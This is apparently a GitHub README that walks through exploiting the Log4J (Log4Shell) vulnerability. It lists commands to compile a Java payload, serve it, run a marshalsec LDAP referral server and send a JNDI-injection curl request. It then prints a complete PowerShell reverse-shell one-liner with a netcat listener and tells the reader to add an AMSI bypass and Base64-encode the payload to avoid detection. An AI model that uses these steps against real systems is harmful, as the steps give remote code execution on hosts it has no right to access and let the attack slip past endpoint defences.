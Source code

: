 # Log4J Vulnerability

## Sources

* [John Hammond Log4J Video](https://www.youtube.com/watch?v=7qoPDq41xhQ&t=1481s)
* [Initial Github Repository For Log4J POC](https://github.com/xiajun325/apache-log4j-rce-poc)
* [Github - Powershell Reverse Shell](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3)

## Method

Compile `Log4J.java` file :
```
javac Log4J.java
```

Start a HTTP server with Python :
```
python3 -m http.server 8080
```

Start LDAP server :
```
git clone git@github.com:mbechler/marshalsec.git
cd marshalsec
mvn clean package -DskipTests
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8080/#Log4J"
```

Send poisonned request to server :
```
curl -H 'User-Agent: ${jndi:ldap://127.0.0.1:1389/Log4J}' localhost:8080
```

## Reverse shell

Create `netcat` connection to receive the access to the reverse shell :
```
nc -lnvp 8080
```

Get the following Powershell script then edit the IP address and the port to match with the target.
```
$client = New-Object System.Net.Sockets.TCPClient("127.0.0.1",8080);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Go on [AMSI.fail](https://amsi.fail/) wbesite and copy a `Rasta-mouses Amsi-Scan-Buffer patch`.  
Encode into Base64 the script thanks to a [Powershell Encoder](https://raikia.com/tool-powershell-encoder/) by pasting the `Rasta-mouses Amsi-Scan-Buffer patch` and the Powershell script.

Adapt the code in `Log4J.java` file to run the corresponding command then compile :
```
javac Log4J.java
```